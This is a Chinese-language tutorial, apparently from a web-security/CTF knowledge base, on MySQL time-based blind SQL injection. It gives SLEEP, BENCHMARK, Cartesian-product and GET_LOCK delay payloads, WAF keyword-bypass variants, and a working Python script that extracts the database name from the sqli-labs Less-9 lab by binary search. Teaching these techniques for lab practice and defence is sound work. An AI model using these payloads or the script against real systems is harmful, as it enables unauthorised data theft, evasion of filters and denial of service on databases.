

# ⏱️ 时间盲注底层函数全解与侧信道时延利用精析

> **适用场景**：终极盲注场景。页面**没有数据回显**、**没有报错信息**，且无论查询条件是真是假，页面返回的 HTML 内容、状态码、HTTP 头部**完全 100% 一模一样**（布尔盲注彻底失效）。
> 此时唯一的泄漏信道是计算机执行指令的物理时间——**响应延迟（Time-Delay Side Channel）**。

---

## 0. 基础前置认知与小白扫盲：当页面完全不发生任何变化时怎么办？

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


### 1. 通俗生活比喻：用秒表测算服务器的心跳
* **布尔盲注的局限**：如果页面连“成功/失败”的真假差异都不给展示，无论输入什么，页面返回的 HTTP 响应体、状态码、长度完全一模一样，此时布尔盲注就会彻底失效。
* **时间盲注（Time-Based Blind Injection）的逆向思维**：
  * “既然你看上去毫无反应，那我就强行让你**延时发呆**！”
  * 黑客构造一个条件分支：**“如果第 1 个字母是 a，请服务器立刻睡觉休眠 3 秒钟；如果不是 a，请立刻返回！”**
  * 黑客在客户端手里捏着一个**高精度秒表**（记录 HTTP 请求发出到收到响应的时间差）：
    * 如果请求在 0.05 秒内瞬间返回：说明猜错了；
    * 如果请求整整卡住了 3 秒多才慢吞吞返回：说明猜对了！答案就在休眠的这一瞬间得到证实！

---

### 2. 核心延时函数与逐字拆解
* **`IF(condition, SLEEP(3), 0)`**：
  * `condition`：你构造的真假判断句（例如 `ASCII(SUBSTR(database(), 1, 1)) = 115`）；
  * `SLEEP(3)`：MySQL 专职休眠函数，让数据库引擎挂起当前线程整整 3 秒；
  * `0`：条件不成立时执行的空操作，瞬间返回 0。
* **`BENCHMARK(5000000, MD5(1))`（WAF 绕过神器）**：
  * 很多现代 WAF 会把 `SLEEP` 列入重点监控黑名单，一看到 `sleep` 字符串直接拦截。
  * `BENCHMARK(次数, 表达式)`：让数据库把括号里的表达式重复执行几百万次！虽然数据库没有主动睡觉，但硬生生计算 500 万次 MD5 会把 CPU 算力打满几秒钟，同样实现了几秒钟的响应延迟，完美绕过关键词过滤！

---

## 一、四大核心延时手法与底层参数逐一拆解

当常规的 `sleep()` 函数被 WAF 严防死守拦截时，安全研究员挖掘出了多种底层等效替代方案。

### 1. `SLEEP()` 函数（线程挂起法）
* **语法定义**：`SLEEP(seconds)`
* **底层机制**：调用底层操作系统睡眠 API（如 Linux `nanosleep()` 或 Windows `Sleep()`），让当前 MySQL 查询工作线程主动放弃 CPU 时间片挂起指定秒数。

#### 🔍 经典 Payload 结构：
```sql
?id=1' AND IF(length(database())>5, SLEEP(3), 0) --+
```
* `IF(expr1, expr2, expr3)`：三元条件函数。
  * `expr1`：`length(database())>5`。如果库名长度大于 5，执行 `expr2`；否则执行 `expr3`。
  * `expr2`：`SLEEP(3)`。挂起 3 秒。
  * `expr3`：`0`。不休眠，立即返回。

---

### 2. `BENCHMARK()` 函数（CPU 暴力计算法）
* **语法定义**：`BENCHMARK(count, expr)`
* **本意作用**：MySQL 自带的性能测试工具，用于测试某个表达式执行特定次数所需的时间。
* **攻击机制**：如果 WAF 拦截了 `sleep`，可以让数据库在瞬间重复执行几千万次哈希运算，依靠纯算力消耗拉长 HTTP 响应时间！

#### 🔍 Payload 与参数拆解：
```sql
?id=1' AND IF(length(database())>5, BENCHMARK(10000000, md5(0x61)), 0) --+
```
* `count = 10000000`：循环执行 1000 万次。
* `expr = md5(0x61)`：每次循环计算一次字符 `'a'` 的 MD5 哈希。在现代服务器上，1000 万次计算大约产生 2~4 秒的确定性 CPU 延迟。

---

### 3. 笛卡尔积查询（Heavy Query 重型全排列运算，无函数绕过）
* **底层机制**：当 `sleep` 和 `benchmark` 均被黑名单严格封杀时，直接使用最纯粹的 SQL 查询语句制造**笛卡尔积爆炸**！
* 两个拥有 1000 行记录的表进行无条件连接，会产生 $1000 \times 1000 = 1,000,000$ 次遍历；三个表关联则高达 10 亿次遍历，触发严重的数据库内存与 IO 延时。

#### 🔍 Payload 与底层结构：
```sql
?id=1' AND IF(length(database())>5, (SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.columns C), 0) --+
```
* `information_schema.columns`：系统元数据列字典，通常含有上千条记录。
* `A, B, C`：让同一张大表自身与自身做三次笛卡尔乘积全排列运算。
* **优势**：**整个 Payload 中没有任何危险函数名**，绝大多数 WAF 均将其视为合法业务查询，无法拦截！
* ⚠️ **警告**：连接表数量需严格控制，过多可能导致靶机数据库进程卡死拒绝服务（DoS）。

---

### 4. `GET_LOCK()` 锁等待机制
* **语法**：`GET_LOCK(key_str, timeout)`
* **机制**：通过在两个并发连接中争抢同一把命名锁，强制让后续请求在数据库中阻塞排队等待 `timeout` 秒，从而形成时延。

---

## 二、对抗 WAF 关键词拦截的逻辑替代黑魔法

### 1. 过滤了 `IF` 关键字？改用 `CASE WHEN`
```sql
?id=1' AND (CASE WHEN (length(database())>5) THEN SLEEP(3) ELSE 0 END) --+
```

### 2. 同时过滤了 `IF` 和 `CASE WHEN`？利用算术乘法直接计算！
> [!TIP]
> **终极奇技淫巧**：布尔表达式在 SQL 中真为 `1`，假为 `0`。
> 我们直接把判断条件与休眠秒数**做数学相乘**：
> `SLEEP(3 * (length(database())>5))`
> * 当条件为真（1）时：`SLEEP(3 * 1)` $\rightarrow$ 执行 `SLEEP(3)`；
> * 当条件为假（0）时：`SLEEP(3 * 0)` $\rightarrow$ 执行 `SLEEP(0)`（瞬间返回）。
> **彻底抛弃所有的条件分支关键字！**

---

## 三、网络抖动对抗：动态基准时延过滤算法

在网络实测中，由于公网链路波动，偶尔正常的请求也会耗时 1~2 秒，造成大量**假阳性（误报）**。
成熟的时间盲注脚本必须引入 **“基准响应时间预热（Baseline Benchmarking）”** 算法。



---

## 四、工业级 Python 动态自适应时延盲注脚本

```python
import requests
import time

TARGET_URL = "http://127.0.0.1/sqli-labs/Less-9/"
SLEEP_TIME = 2.5  # 注入触发的休眠时间（秒）
session = requests.Session()

def measure_baseline(samples=3) -> float:
    """测算网络底噪平均延迟，建立自适应基准线"""
    print("[*] 正在测量网络环境底噪时延...")
    total = 0.0
    for _ in range(samples):
        t0 = time.time()
        session.get(f"{TARGET_URL}?id=1' AND 0 --+", timeout=5)
        total += (time.time() - t0)
    baseline = total / samples
    print(f"[+] 基准时延为: {baseline:.3f} 秒")
    return baseline

BASELINE = measure_baseline()
# 动态判定门限：底噪 + 70% 的预期延迟，既抗抖动又防止超时误判
THRESHOLD = BASELINE + (SLEEP_TIME * 0.7)

def check_condition(sql_cond: str) -> bool:
    """发包并以响应耗时判定条件真伪"""
    # 采用免 IF 的纯算术乘法 Payload
    payload = f"sleep({SLEEP_TIME} * ({sql_cond}))"
    url = f"{TARGET_URL}?id=1' AND {payload} --+"
    
    t0 = time.time()
    try:
        session.get(url, timeout=SLEEP_TIME + 3)
    except requests.exceptions.Timeout:
        # 如果直接超时，毫无疑问必然触发了休眠！
        return True
    
    elapsed = time.time() - t0
    return elapsed >= THRESHOLD

def dump_database_name() -> str:
    """利用时间盲注二分法获取当前数据库名"""
    # 1. 测算长度
    print("[*] 正在探测数据库名长度...")
    length = 0
    for l in range(1, 30):
        if check_condition(f"length(database())={l}"):
            length = l
            print(f"[+] 测得长度为: {length}")
            break
            
    # 2. 逐字提取
    result = ""
    for idx in range(1, length + 1):
        low, high = 32, 126
        while low <= high:
            mid = (low + high) // 2
            # 条件发问：第 idx 位 ASCII 是否 > mid
            if check_condition(f"ascii(substr(database(), {idx}, 1)) > {mid}"):
                low = mid + 1
            else:
                high = mid - 1
        char = chr(low)
        result += char
        print(f"[+] 第 {idx} 位: [{char}] -> 当前结果: {result}")
        
    return result

if __name__ == "__main__":
    db = dump_database_name()
    print(f"\n[★] 时间盲注最终成功提取库名: {db}")
```

---

## 🔗 相关双向链接
- 上级模块：[[02-SQL注入体系]]
- 前置基础：[[布尔盲注脚本编写与二分法优化]]
- 下级模块：[[堆叠注入在多数据库下的利用边界]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]
